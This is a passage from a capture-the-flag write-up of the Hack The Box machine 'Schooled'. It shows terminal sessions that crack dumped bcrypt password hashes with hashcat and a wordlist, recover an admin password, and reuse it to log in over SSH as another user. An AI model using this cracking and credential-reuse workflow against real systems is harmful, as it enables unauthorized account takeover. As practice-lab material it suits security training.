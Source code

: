 Cracked every hashes:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ cat loot/users.hash| awk -F ' ' '{ print $1 ":" $2}' > loot/users.list

┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ hashid '$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi'
Analyzing '$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt

┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ hashcat -h | grep -i blowfish
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
  18600 | Open Document Format (ODF) 1.1 (SHA-1, Blowfish) | Documents

┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ hashcat loot/users.list /usr/share/wordlists/rockyou.txt --force --username --separator ":" -o users.pwd -m3200
hashcat (v6.1.1) starting...
...
admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
```

>[!important]
>admin     !QAZ2wsx

## Reused admin password and SSH as jamie

Logged through SSH using jamie password:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ ssh jamie@10.10.10.234
Password for jamie@Schooled: !QAZ2wsx
Last login: Tue May 11 20:44:42 2021 from 10.10.14.24
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
If you need to ask a question on the FreeBSD-questions mailing list then

        https://www.FreeBSD.org/doc/en_US.ISO8859-1/articles/\
                freebsd-questions/index.html

contains lots of useful advice to help you get the best results.
```
